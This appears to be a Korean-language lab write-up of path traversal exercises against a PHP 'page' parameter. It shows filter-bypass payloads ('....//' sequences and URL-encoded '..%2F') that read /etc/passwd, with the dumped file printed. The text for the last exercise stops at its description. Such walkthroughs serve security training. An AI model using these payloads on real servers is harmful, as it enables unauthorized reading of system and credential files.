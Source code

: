 ## Exercise 2
| 개발자가 "page" 매개변수에 대한 입력값 유효성 검사를 적용했습니다. 이제 1번 문제와 같은 기본 페이로드는 더 이상 사용할 수 없습니다.

```
https://.../pathtrav_ex2.php?page=....//....//....//....//....//etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false
```
## Exercise 3
| 이 문제는 "page" 매개변수의 값에 닷닷슬래시(../)와 닷닷백슬래시(..\)가 포함된 경우 제거하지 않고 요청을 차단합니다. 하지만 소스코드에는 사용자 입력에 대한 불필요한 URL 디코딩 작업이 남아있습니다.

```
https://.../pathtrav_ex3.php?page=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false
```
## Exercise 4
| 이 문제는 "page" 매개변수에 참조하려는 파일의 전체 경로를 사용합니다. 개발자는 디렉토리 순회 공격을 예방하기 위해 "page" 매개변수에 파일의 경로가 유효한 시작 경로가 아닌 경우 요청을 차단합니다. 
